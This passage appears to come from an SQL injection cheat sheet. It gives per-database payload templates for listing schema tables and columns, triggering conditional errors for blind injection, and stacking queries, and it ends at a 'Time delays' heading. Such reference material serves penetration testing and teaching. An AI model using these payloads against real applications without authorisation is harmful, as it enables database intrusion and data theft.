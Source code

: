 PostgreSQL

`SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'  
`

MySQL

`SELECT * FROM information_schema.tables  
SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'`

### Conditional errors

You can test a single boolean condition and trigger a database error if the condition is true.

Oracle

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN to_char(1/0) ELSE NULL END FROM dual`

Microsoft

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`

PostgreSQL

`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN cast(1/0 as text) ELSE NULL END`

MySQL

`SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')`

### Batched (or stacked) queries

You can use batched queries to execute multiple queries in succession. Note that while the subsequent queries are executed, the results are not returned to the application. Hence this technique is primarily of use in relation to blind vulnerabilities where you can use a second query to trigger a DNS lookup, conditional error, or time delay.

Oracle

`Does not support batched queries.`

Microsoft

`QUERY-1-HERE; QUERY-2-HERE`

PostgreSQL

`QUERY-1-HERE; QUERY-2-HERE`

MySQL

`QUERY-1-HERE; QUERY-2-HERE`

#### Note

With MySQL, batched queries typically cannot be used for SQL injection. However, this is occasionally possible if the target application uses certain PHP or Python APIs to communicate with a MySQL database.
### Time delays
